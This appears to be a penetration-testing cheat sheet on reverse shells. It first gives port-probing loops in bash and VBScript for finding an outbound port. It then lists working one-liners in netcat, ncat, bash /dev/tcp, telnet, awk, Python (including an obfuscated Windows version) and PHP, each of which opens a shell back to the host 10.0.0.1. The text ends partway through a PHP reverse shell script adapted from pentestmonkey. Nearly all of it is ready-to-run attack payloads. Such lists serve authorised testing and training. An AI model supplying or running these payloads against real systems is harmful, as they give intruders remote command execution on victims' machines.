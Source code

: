 ==============
Reverse Shells
==============

* https://github.com/mthbernardes/rsg
* https://github.com/m0rph-1/revshellgen

Finding a Port
--------------

Try common ports first, 53, 80, etc. However if you are having trouble finding a good port, fire up Wireshark and enter the following filter:

.. code-block:: none

    ip.addr == <target-ip> and tcp.flags.syn == 1

Target IP should be the IP of the host you are trying to connect from. Warning: if this host is coming from a different network, it might be different to what ifconfig says.

On target host, run the following:

.. code-block:: bash

    for port in 80 23 443 21 22 25 3389 110 445 139 143 53 135 3306 8080 1723 111 995 993 5900 1025 587 8888 199 1720 465 548 113 81 6001 10000 514 5060 179 1026 2000 8443 8000 32768 554 26 1433 49152 2001 515 8008 49154 1027 5666 646 5000 5631 631 49153 8081 2049 88 79 5800 106 2121 1110 49155 6000 513 990 5357 427 49156 543 544 5101 144 7 389 8009 3128 444 9999 5009 7070 5190 3000 5432 1900 3986 13 1029 9 5051 6646 49157 1028 873 1755 2717 4899 9100 119 37 1000 3001 5001 82 10010 1030 9090 2107 1024 2103 6004 1801 5050 19 8031 1041 255 1049 1048 2967 1053 3703 1056 1065 1064 1054 17 808 3689 1031 1044 1071 5901 100 9102 8010 2869 1039 5120 4001 9000 2105 636 1038 2601 1 7000 1066 1069 625 311 280 254 4000 1761 5003 2002 2005 1998 1032 1050 6112 3690 1521 2161 6002 1080 2401 4045 902 7937 787 1058 2383 32771 1033 1040 1059 50000 5555 10001 1494 593 2301 3 3268 7938 1234 1022 1074 8002 1036 1035 9001 1037 464 497 1935 6666 2003 6543 1352 24 3269 1111 407 500 20 2006 3260 15000 1218 1034 4444 264 2004 33 1042 42510 999 3052 1023 1068 222 7100 888 563 1717 2008 992 32770 32772 7001 8082 2007 5550 2009 5801 1043 512 2701 7019 50001 1700 4662 2065 2010 42 9535 2602 3333 161 5100 5002 2604 4002 6059 1047 8192 8193 2702 6789 9595 1051 9594 9593 16993 16992 5226 5225 32769 3283 1052 8194 1055 1062 9415 8701 8652 8651 8089 65389 65000 64680 64623 55600 55555 52869 35500 33354 23502 20828 1311 1060 4443 389 1067 13782 5902 366 9050 1002 85 5500 5431 1864 1863 8085 51103 49999 45100 10243 49 6667 90 27000 1503 6881 1500 8021 340 5566 8088 2222 9071 8899 6005 9876 1501 5102 32774 32773 9101 5679 163 648 146 1666 901 83 9207 8001 8083 5004 3476 8084 5214 14238 12345 912 30 2605 2030 6 541 8007 3005 4 1248 2500 880 306 4242 1097 9009 2525 1086 1088 8291 52822 6101 900 7200 2809 800 32775 12000 1083 211 987 705 20005 711 13783 6969 3071 5269 5222 1085 1046 5987 5989 5988 2190 11967 8600 3766 7627 8087 30000 9010 7741 14000 3367 1099 1098 3031 2718 6580 15002 4129 6901 3827 3580 2144 9900 8181 3801 1718 2811 9080 2135 1045 2399 3017 10002 1148 9002 8873 2875 5718 8086 3998 2607 11110 4126 5911 5910 9618 2381 1096 3300 3351 1073 8333 3784 5633 15660 6123 3211 1078 3659 3551 2260 2160 2100 16001 3325 3323 1104 9968 9503 9502 9485 9290 9220 9011 8994 8649 8222 7911 7625 7106 65129 63331 6156 6129 60020 5962 5961 5960 5959 5925 5877 5825 5810 58080 57294 50800 50006 50003 49160 49159 49158 48080 40193 34573 34572 34571 3404 33899 3301 32782 32781 31038 30718 28201 27715 25734 24800 22939 21571 20221 20031 19842 19801 19101 17988 1783 16018 16016 15003 14442 13456 10629 10628 10626 10621 10617 10616 10566 10025 10024 10012 1169 5030 5414 1057 6788 1947 1094 1075 1108 4003 1081 1093 4449 1687 1840 1100 1063 1061 1107 1106 9500 20222 7778 1077 1310 2119 2492 1070 20000 8400 1272 6389 7777 1072 1079 1082 8402 89 691 1001 32776 1999 212 2020 6003 7002 2998 50002 3372 898 5510 32 2033 5903 99 749 425 43 5405 6106 13722 6502 7007 458 9666 8100 3737 5298 1152 8090 2191 3011 1580 5200 3851 3371 3370 3369 7402 5054 3918 3077 7443 3493 3828 1186 2179 1183 19315 19283 3995 5963 1124 8500 1089 10004 2251 1087 5280 3871 3030 62078 9091 4111 1334 3261 2522 5859 1247 9944 9943 9877 9110 8654 8254 8180 8011 7512 7435 7103 61900 61532 5922 5915 5904 5822 56738 55055 51493 50636 50389 49175 49165 49163 3546 32784 27355 27353 27352 24444 19780 18988 16012 15742 10778 4006 2126 4446 3880 1782 1296 9998 9040 32779 1021 32777 2021 32778 616 666 700 5802 4321 545 1524 1112 49400 84 38292 2040 32780 3006 2111 1084 1600 2048 2638 6699 9111 16080 6547 6007 1533 5560 2106 1443 667 720 2034 555 801 6025 3221 3826 9200 2608 4279 7025 11111 3527 1151 8200 8300 6689 9878 10009 8800 5730 2394 2393 2725 5061 6566 9081 5678 3800 4550 5080 1201 3168 3814 1862 1114 6510 3905 8383 3914 3971 3809 5033 7676 3517 4900 3869 9418 2909 3878 8042 1091 1090 3920 6567 1138 3945 1175 10003 3390 3889 1131 8292 5087 1119 1117 4848 7800 16000 3324 3322 5221 4445 9917 9575 9099 9003 8290 8099 8093 8045 7921 7920 7496 6839 6792 6779 6692 6565 60443 5952 5950 5907 5906 5862 5850 5815 5811 57797 56737 5544 55056 5440 54328 54045 52848 52673 50500 50300 49176 49167 49161 44501 44176 41511 40911 32785 32783 30951 27356 26214 25735 19350 18101 18040 17877 16113 15004 14441 12265 12174 10215 10180 4567 6100 4004 4005 8022 9898 7999 1271 1199 3003 1122 2323 4224 2022 617 777 417 714 6346 981 722 1009 4998 70 1076 5999 10082 765 301 524 668 2041 6009 1417 1434 259 44443 1984 2068 7004 1007 4343 416 2038 6006 109 4125 1461 9103 911 726 1010 2046 2035 7201 687 2013 481 125 6669 6668 903 1455 683 1011 2043 2047 31337 256 9929 5998 406 44442 783 843 2042 2045 4040 6060 6051 1145 3916 9443 9444 1875 7272 4252 4200 7024 1556 13724 1141 1233 8765 1137 3963 5938 9191 3808 8686 3981 2710 3852 3849 3944 3853 9988 1163 4164 3820 6481 3731 5081 40000 8097 4555 3863 1287 4430 7744 1812 7913 1166 1164 1165 8019 10160 4658 7878 3304 3307 1259 1092 7278 3872 10008 7725 3410 1971 3697 3859 3514 4949 4147 7900 5353; do wget -O /dev/null -T1 -t1 http://10.0.0.1:$port; done

This will iterate over the top TCP ports in order (according to Nmap) and try to make an HTTP connection on each one. Look for a SYN packet in Wireshark, which will indicate that at the very least, the packet made it through.

A smaller, similar (but not as good) script is below. This will iterate across the first 1024 TCP ports, rather than the most popular.

.. code-block:: bash

    for port in $(seq 1 1024); do wget -O /dev/null -T1 -t1 http://10.0.0.1:$port; done

Same thing for Windows (VBS script):

.. code-block:: none

    On Error Resume Next
    arr = Array(80,23,443,21,22,25,3389,110,445,139,143,53,135,3306,8080,1723,111,995,993,5900,1025,587,8888,199,1720,465,548,113,81,6001,10000,514,5060,179,1026,2000,8443,8000,32768,554,26,1433,49152,2001,515,8008,49154,1027,5666,646,5000,5631,631,49153,8081,2049,88,79,5800,106,2121,1110,49155,6000,513,990,5357,427,49156,543,544,5101,144,7,389,8009,3128,444,9999,5009,7070,5190,3000,5432,1900,3986,13,1029,9,5051,6646,49157,1028,873,1755,2717,4899,9100,119,37,1000,3001,5001,82,10010,1030,9090,2107,1024,2103,6004,1801,5050,19,8031,1041,255,1049,1048,2967,1053,3703,1056,1065,1064,1054,17,808,3689,1031,1044,1071,5901,100,9102,8010,2869,1039,5120,4001,9000,2105,636,1038,2601,1,7000,1066,1069,625,311,280,254,4000,1761,5003,2002,2005,1998,1032,1050,6112,3690,1521,2161,6002,1080,2401,4045,902,7937,787,1058,2383,32771,1033,1040,1059,50000,5555,10001,1494,593,2301,3,3268,7938,1234,1022,1074,8002,1036,1035,9001,1037,464,497,1935,6666,2003,6543,1352,24,3269,1111,407,500,20,2006,3260,15000,1218,1034,4444,264,2004,33,1042,42510,999,3052,1023,1068,222,7100,888,563,1717,2008,992,32770,32772,7001,8082,2007,5550,2009,5801,1043,512,2701,7019,50001,1700,4662,2065,2010,42,9535,2602,3333,161,5100,5002,2604,4002,6059,1047,8192,8193,2702,6789,9595,1051,9594,9593,16993,16992,5226,5225,32769,3283,1052,8194,1055,1062,9415,8701,8652,8651,8089,65389,65000,64680,64623,55600,55555,52869,35500,33354,23502,20828,1311,1060,4443,389,1067,13782,5902,366,9050,1002,85,5500,5431,1864,1863,8085,51103,49999,45100,10243,49,6667,90,27000,1503,6881,1500,8021,340,5566,8088,2222,9071,8899,6005,9876,1501,5102,32774,32773,9101,5679,163,648,146,1666,901,83,9207,8001,8083,5004,3476,8084,5214,14238,12345,912,30,2605,2030,6,541,8007,3005,4,1248,2500,880,306,4242,1097,9009,2525,1086,1088,8291,52822,6101,900,7200,2809,800,32775,12000,1083,211,987,705,20005,711,13783,6969,3071,5269,5222,1085,1046,5987,5989,5988,2190,11967,8600,3766,7627,8087,30000,9010,7741,14000,3367,1099,1098,3031,2718,6580,15002,4129,6901,3827,3580,2144,9900,8181,3801,1718,2811,9080,2135,1045,2399,3017,10002,1148,9002,8873,2875,5718,8086,3998,2607,11110,4126,5911,5910,9618,2381,1096,3300,3351,1073,8333,3784,5633,15660,6123,3211,1078,3659,3551,2260,2160,2100,16001,3325,3323,1104,9968,9503,9502,9485,9290,9220,9011,8994,8649,8222,7911,7625,7106,65129,63331,6156,6129,60020,5962,5961,5960,5959,5925,5877,5825,5810,58080,57294,50800,50006,50003,49160,49159,49158,48080,40193,34573,34572,34571,3404,33899,3301,32782,32781,31038,30718,28201,27715,25734,24800,22939,21571,20221,20031,19842,19801,19101,17988,1783,16018,16016,15003,14442,13456,10629,10628,10626,10621,10617,10616,10566,10025,10024,10012,1169,5030,5414,1057,6788,1947,1094,1075,1108,4003,1081,1093,4449,1687,1840,1100,1063,1061,1107,1106,9500,20222,7778,1077,1310,2119,2492,1070,20000,8400,1272,6389,7777,1072,1079,1082,8402,89,691,1001,32776,1999,212,2020,6003,7002,2998,50002,3372,898,5510,32,2033,5903,99,749,425,43,5405,6106,13722,6502,7007,458,9666,8100,3737,5298,1152,8090,2191,3011,1580,5200,3851,3371,3370,3369,7402,5054,3918,3077,7443,3493,3828,1186,2179,1183,19315,19283,3995,5963,1124,8500,1089,10004,2251,1087,5280,3871,3030,62078,9091,4111,1334,3261,2522,5859,1247,9944,9943,9877,9110,8654,8254,8180,8011,7512,7435,7103,61900,61532,5922,5915,5904,5822,56738,55055,51493,50636,50389,49175,49165,49163,3546,32784,27355,27353,27352,24444,19780,18988,16012,15742,10778,4006,2126,4446,3880,1782,1296,9998,9040,32779,1021,32777,2021,32778,616,666,700,5802,4321,545,1524,1112,49400,84,38292,2040,32780,3006,2111,1084,1600,2048,2638,6699,9111,16080,6547,6007,1533,5560,2106,1443,667,720,2034,555,801,6025,3221,3826,9200,2608,4279,7025,11111,3527,1151,8200,8300,6689,9878,10009,8800,5730,2394,2393,2725,5061,6566,9081,5678,3800,4550,5080,1201,3168,3814,1862,1114,6510,3905,8383,3914,3971,3809,5033,7676,3517,4900,3869,9418,2909,3878,8042,1091,1090,3920,6567,1138,3945,1175,10003,3390,3889,1131,8292,5087,1119,1117,4848,7800,16000,3324,3322,5221,4445,9917,9575,9099,9003,8290,8099,8093,8045,7921,7920,7496,6839,6792,6779,6692,6565,60443,5952,5950,5907,5906,5862,5850,5815,5811,57797,56737,5544,55056,5440,54328,54045,52848,52673,50500,50300,49176,49167,49161,44501,44176,41511,40911,32785,32783,30951,27356,26214,25735,19350,18101,18040,17877,16113,15004,14441,12265,12174,10215,10180,4567,6100,4004,4005,8022,9898,7999,1271,1199,3003,1122,2323,4224,2022,617,777,417,714,6346,981,722,1009,4998,70,1076,5999,10082,765,301,524,668,2041,6009,1417,1434,259,44443,1984,2068,7004,1007,4343,416,2038,6006,109,4125,1461,9103,911,726,1010,2046,2035,7201,687,2013,481,125,6669,6668,903,1455,683,1011,2043,2047,31337,256,9929,5998,406,44442,783,843,2042,2045,4040,6060,6051,1145,3916,9443,9444,1875,7272,4252,4200,7024,1556,13724,1141,1233,8765,1137,3963,5938,9191,3808,8686,3981,2710,3852,3849,3944,3853,9988,1163,4164,3820,6481,3731,5081,40000,8097,4555,3863,1287,4430,7744,1812,7913,1166,1164,1165,8019,10160,4658,7878,3304,3307,1259,1092,7278,3872,10008,7725,3410,1971,3697,3859,3514,4949,4147,7900,5353)
    For Each port in arr
    Set objXMLHTTP = CreateObject("MSXML2.XMLHTTP")
    objXMLHTTP.open "GET", "http://10.0.0.1:" & port & "/", False
    objXMLHTTP.send()
    Set objXMLHTTP = Nothing
    Next

As a series of echo statements:

.. code-block:: none

    echo On Error Resume Next >> ports.vbs
    echo arr = Array(80,23,443,21,22,25,3389,110,445,139,143,53,135,3306,8080,1723,111,995,993,5900,1025,587,8888,199,1720,465,548,113,81,6001,10000,514,5060,179,1026,2000,8443,8000,32768,554,26,1433,49152,2001,515,8008,49154,1027,5666,646,5000,5631,631,49153,8081,2049,88,79,5800,106,2121,1110,49155,6000,513,990,5357,427,49156,543,544,5101,144,7,389,8009,3128,444,9999,5009,7070,5190,3000,5432,1900,3986,13,1029,9,5051,6646,49157,1028,873,1755,2717,4899,9100,119,37,1000,3001,5001,82,10010,1030,9090,2107,1024,2103,6004,1801,5050,19,8031,1041,255,1049,1048,2967,1053,3703,1056,1065,1064,1054,17,808,3689,1031,1044,1071,5901,100,9102,8010,2869,1039,5120,4001,9000,2105,636,1038,2601,1,7000,1066,1069,625,311,280,254,4000,1761,5003,2002,2005,1998,1032,1050,6112,3690,1521,2161,6002,1080,2401,4045,902,7937,787,1058,2383,32771,1033,1040,1059,50000,5555,10001,1494,593,2301,3,3268,7938,1234,1022,1074,8002,1036,1035,9001,1037,464,497,1935,6666,2003,6543,1352,24,3269,1111,407,500,20,2006,3260,15000,1218,1034,4444,264,2004,33,1042,42510,999,3052,1023,1068,222,7100,888,563,1717,2008,992,32770,32772,7001,8082,2007,5550,2009,5801,1043,512,2701,7019,50001,1700,4662,2065,2010,42,9535,2602,3333,161,5100,5002,2604,4002,6059,1047,8192,8193,2702,6789,9595,1051,9594,9593,16993,16992,5226,5225,32769,3283,1052,8194,1055,1062,9415,8701,8652,8651,8089,65389,65000,64680,64623,55600,55555,52869,35500,33354,23502,20828,1311,1060,4443,389,1067,13782,5902,366,9050,1002,85,5500,5431,1864,1863,8085,51103,49999,45100,10243,49,6667,90,27000,1503,6881,1500,8021,340,5566,8088,2222,9071,8899,6005,9876,1501,5102,32774,32773,9101,5679,163,648,146,1666,901,83,9207,8001,8083,5004,3476,8084,5214,14238,12345,912,30,2605,2030,6,541,8007,3005,4,1248,2500,880,306,4242,1097,9009,2525,1086,1088,8291,52822,6101,900,7200,2809,800,32775,12000,1083,211,987,705,20005,711,13783,6969,3071,5269,5222,1085,1046,5987,5989,5988,2190,11967,8600,3766,7627,8087,30000,9010,7741,14000,3367,1099,1098,3031,2718,6580,15002,4129,6901,3827,3580,2144,9900,8181,3801,1718,2811,9080,2135,1045,2399,3017,10002,1148,9002,8873,2875,5718,8086,3998,2607,11110,4126,5911,5910,9618,2381,1096,3300,3351,1073,8333,3784,5633,15660,6123,3211,1078,3659,3551,2260,2160,2100,16001,3325,3323,1104,9968,9503,9502,9485,9290,9220,9011,8994,8649,8222,7911,7625,7106,65129,63331,6156,6129,60020,5962,5961,5960,5959,5925,5877,5825,5810,58080,57294,50800,50006,50003,49160,49159,49158,48080,40193,34573,34572,34571,3404,33899,3301,32782,32781,31038,30718,28201,27715,25734,24800,22939,21571,20221,20031,19842,19801,19101,17988,1783,16018,16016,15003,14442,13456,10629,10628,10626,10621,10617,10616,10566,10025,10024,10012,1169,5030,5414,1057,6788,1947,1094,1075,1108,4003,1081,1093,4449,1687,1840,1100,1063,1061,1107,1106,9500,20222,7778,1077,1310,2119,2492,1070,20000,8400,1272,6389,7777,1072,1079,1082,8402,89,691,1001,32776,1999,212,2020,6003,7002,2998,50002,3372,898,5510,32,2033,5903,99,749,425,43,5405,6106,13722,6502,7007,458,9666,8100,3737,5298,1152,8090,2191,3011,1580,5200,3851,3371,3370,3369,7402,5054,3918,3077,7443,3493,3828,1186,2179,1183,19315,19283,3995,5963,1124,8500,1089,10004,2251,1087,5280,3871,3030,62078,9091,4111,1334,3261,2522,5859,1247,9944,9943,9877,9110,8654,8254,8180,8011,7512,7435,7103,61900,61532,5922,5915,5904,5822,56738,55055,51493,50636,50389,49175,49165,49163,3546,32784,27355,27353,27352,24444,19780,18988,16012,15742,10778,4006,2126,4446,3880,1782,1296,9998,9040,32779,1021,32777,2021,32778,616,666,700,5802,4321,545,1524,1112,49400,84,38292,2040,32780,3006,2111,1084,1600,2048,2638,6699,9111,16080,6547,6007,1533,5560,2106,1443,667,720,2034,555,801,6025,3221,3826,9200,2608,4279,7025,11111,3527,1151,8200,8300,6689,9878,10009,8800,5730,2394,2393,2725,5061,6566,9081,5678,3800,4550,5080,1201,3168,3814,1862,1114,6510,3905,8383,3914,3971,3809,5033,7676,3517,4900,3869,9418,2909,3878,8042,1091,1090,3920,6567,1138,3945,1175,10003,3390,3889,1131,8292,5087,1119,1117,4848,7800,16000,3324,3322,5221,4445,9917,9575,9099,9003,8290,8099,8093,8045,7921,7920,7496,6839,6792,6779,6692,6565,60443,5952,5950,5907,5906,5862,5850,5815,5811,57797,56737,5544,55056,5440,54328,54045,52848,52673,50500,50300,49176,49167,49161,44501,44176,41511,40911,32785,32783,30951,27356,26214,25735,19350,18101,18040,17877,16113,15004,14441,12265,12174,10215,10180,4567,6100,4004,4005,8022,9898,7999,1271,1199,3003,1122,2323,4224,2022,617,777,417,714,6346,981,722,1009,4998,70,1076,5999,10082,765,301,524,668,2041,6009,1417,1434,259,44443,1984,2068,7004,1007,4343,416,2038,6006,109,4125,1461,9103,911,726,1010,2046,2035,7201,687,2013,481,125,6669,6668,903,1455,683,1011,2043,2047,31337,256,9929,5998,406,44442,783,843,2042,2045,4040,6060,6051,1145,3916,9443,9444,1875,7272,4252,4200,7024,1556,13724,1141,1233,8765,1137,3963,5938,9191,3808,8686,3981,2710,3852,3849,3944,3853,9988,1163,4164,3820,6481,3731,5081,40000,8097,4555,3863,1287,4430,7744,1812,7913,1166,1164,1165,8019,10160,4658,7878,3304,3307,1259,1092,7278,3872,10008,7725,3410,1971,3697,3859,3514,4949,4147,7900,5353) >> ports.vbs
    echo For Each port in arr >> ports.vbs
    echo Set objXMLHTTP = CreateObject("MSXML2.XMLHTTP") >> ports.vbs
    echo objXMLHTTP.open "GET", "http://10.0.0.1:" ^& port ^& "/", False >> ports.vbs
    echo objXMLHTTP.send() >> ports.vbs
    echo Set objXMLHTTP = Nothing >> ports.vbs
    echo Next >> ports.vbs
    echo ""

Netcat
------

.. code-block:: none

    nc -c /bin/sh 10.0.0.1 53

.. code-block:: none

    nc -e /bin/sh 10.0.0.1 53

.. code-block:: none

    /bin/nc.traditional 10.0.0.1 53 -e /bin/sh

Netcat (no -e)
--------------

.. code-block:: bash

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 53 >/tmp/f

.. code-block:: bash

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|/bin/nc.openbsd 10.0.0.1 53 > /tmp/f

.. code-block:: bash

    rm -f /tmp/x; mknod /tmp/x p && nc 10.0.0.1 53 0</tmp/x | /bin/sh 1>/tmp/x

.. code-block:: bash

    rm -f /tmp/x; mknod /tmp/x p && /bin/nc.openbsd 10.0.0.1 53 0</tmp/x | /bin/sh 1>/tmp/x

Ncat
----

.. code-block:: none

    ncat 10.0.0.1 53 -e /bin/sh

.. code-block:: none

    ncat --udp 10.0.0.1 53 -e /bin/sh

Bash TCP
--------

.. code-block:: bash

    sh -i >& /dev/tcp/10.0.0.1/53 0>&1

.. code-block:: bash

    exec 5<> /dev/tcp/10.0.0.1/53; cat <&5 | while read line; do $line 2>&5>&5; done

.. code-block:: bash

    0<&196;exec 196<>/dev/tcp/10.0.0.1/53; sh <&196 >&196 2>&196

Bash UDP
--------

.. code-block:: bash

    sh -i >& /dev/udp/10.0.0.1/53 0>&1

Telnet
------

Create two listeners, the first for sending commands, the other for receiving results.

.. code-block:: bash

    telnet 10.0.0.1 53 | /bin/sh | telnet 10.0.0.1 54

.. code-block:: bash

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|telnet 10.0.0.1 53 > /tmp/f

.. code-block:: bash

    rm -f /tmp/x; mknod /tmp/x p && telnet 10.0.0.1 53 0</tmp/x | /bin/sh 1>/tmp/x

Awk
---

.. code-block:: bash

    awk 'BEGIN {s = "/inet/tcp/0/10.0.0.1/53"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null

Python
------

Linux Only:

.. code-block:: python

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",53));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'

.. code-block:: python

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",53));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

Windows Only:

.. code-block:: python

    C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('10.0.0.1', 53)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"

PHP
---

.. code-block:: php

    php -r '$s=fsockopen("10.0.0.1",53);exec("/bin/sh -i <&3 >&3 2>&3");'

.. code-block:: php

    php -r '$s=fsockopen("10.0.0.1",53);shell_exec("/bin/sh -i <&3 >&3 2>&3");'

.. code-block:: php

    php -r '$s=fsockopen("10.0.0.1",53);`/bin/sh -i <&3 >&3 2>&3`;'

.. code-block:: php

    php -r '$s=fsockopen("10.0.0.1",53);system("/bin/sh -i <&3 >&3 2>&3");'

.. code-block:: php

    php -r '$s=fsockopen("10.0.0.1",53);popen("/bin/sh -i <&3 >&3 2>&3", "r");'

The following is a one-liner modified from a full `pentestmonkey script <https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php>`__. It is generally very successful.

.. code-block:: php

    <?php set_time_limit(0);$VERSION="1.0";$ip='10.0.0.1';$port=53;$chunk_size=1400;$write_a=null;$error_a=null;$shell='/bin/sh -i';$daemon=0;$debug=0;if(function_exists('pcntl_fork')){$pid=pcntl_fork();if($pid==-1){printit("ERROR:cannot-fork");exit(1);}if($pid){exit(0);}if(posix_setsid()==-1){printit("Error:cannot-setsid()");exit(1);}$daemon=1;}else{printit("WARNING:failed-to-daemonise");}chdir("/");umask(0);$sock=fsockopen($ip,$port,$errno,$errstr,30);if(!$sock){printit("$errstr($errno)");exit(1);}$descriptorspec=array(0=>array("pipe","r"),1=>array("pipe","w"),2=>array("pipe","w"));$process=proc_open($shell,$descriptorspec,$pipes);if(!is_resource($process)){printit("ERROR:cannot-spawn-shell");exit(1);}stream_set_blocking($pipes[0],0);stream_set_blocking($pipes[1],0);stream_set_blocking($pipes[2],0);stream_set_blocking($sock,0);printit("successfully-opened-reverse-shell-to-$ip:$port");while(1){if(feof($sock)){printit("ERROR:shell-connection-terminated");break;}if(feof($pipes[1])){printit("ERROR:shell-process-terminated");break;}$read_a=array($sock,$pipes[1],$pipes[2]);$num_changed_sockets=stream_select($read_a,$write_a,$error_a,null);if(in_array($sock,$read_a)){if($debug)printit("SOCK:READ");$input=fread($sock,$chunk_size);if($debug)printit("SOCK:$input");fwrite($pipes[0],$input);}if(in_array($pipes[1],$read_a)){if($debug)printit("STDOUT:READ");$input=fread($pipes[1],$chunk_size);if($debug)printit("STDOUT:$input");fwrite(